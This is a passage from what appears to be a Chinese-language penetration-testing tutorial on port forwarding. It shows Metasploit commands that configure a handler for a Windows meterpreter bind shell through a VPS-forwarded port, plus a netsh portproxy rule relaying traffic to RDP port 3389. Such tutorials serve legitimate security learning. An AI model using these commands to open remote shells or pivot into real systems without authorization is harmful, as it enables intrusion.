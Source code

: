 ```bash
msf > use exploit/multi/handler 

msf exploit(handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp

msf exploit(handler) > set RHOST VPS的IP
RHOST => 10.10.10.171

msf exploit(handler) > set LPORT VPS上转发后的端口
LPORT => 1234
```

在目标机器上运行meterpreter，本地msf就能正常连接反弹的meterpreter。

![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx/meterpreter_lcx.png)

-----------------------------------------------

# netsh转发(只支持TCP协议)

netsh转发见[在windows上用netsh动态配置端口转发](http://aofengblog.blog.163.com/blog/static/631702120148573851740/)

设置转发规则：

```bash
netsh interface portproxy set v4tov4 listenaddress=192.168.200.20 listenport=3388 connectaddress=192.168.200.10 connectport=3389
```

